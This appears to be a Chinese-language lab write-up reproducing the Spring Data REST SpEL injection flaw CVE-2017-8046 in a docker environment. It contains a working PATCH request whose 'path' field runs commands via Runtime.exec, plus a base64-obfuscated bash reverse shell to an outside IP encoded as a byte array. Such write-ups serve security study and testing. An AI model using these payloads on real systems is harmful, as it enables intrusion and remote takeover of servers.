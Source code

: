 # Spring Data Rest 远程命令执行漏洞CVE-2017-8046

## 漏洞描述

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- [http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/](http://xxlegend.com/2017/09/29/Spring Data Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/)
- [https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html](https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞(CVE-2017-8046)_分析与复现.html)

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

![image-20220301144324049](./images/202203011443101.png)

## 漏洞复现

先将命令转为ASCII码表示：

```python
# Payload to ASCII
payload = b'touch /tmp/awesome_poc'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

执行结果：

```
116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99
```

开始复现，访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}`表示的命令`touch /tmp/awesome_poc`。

![image-20220301145537369](./images/202203011455445.png)

进入容器`docker-compose exec spring bash`查看，可见，文件`awesome_poc`被成功创建：

![image-20220301145500645](./images/202203011455722.png)

将bytecode改成反弹shell的命令，并进行转换：

```
# 反弹shell命令
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# bytecode
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,78,67,52,120,77,106,103,118,79,84,107,53,79,83,65,119,80,105,89,120,67,103,111,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

发送数据包：

![image-20220301145823746](./images/202203011458842.png)

成功接收反弹shell：

![image-20220301145803433](./images/202203011458521.png)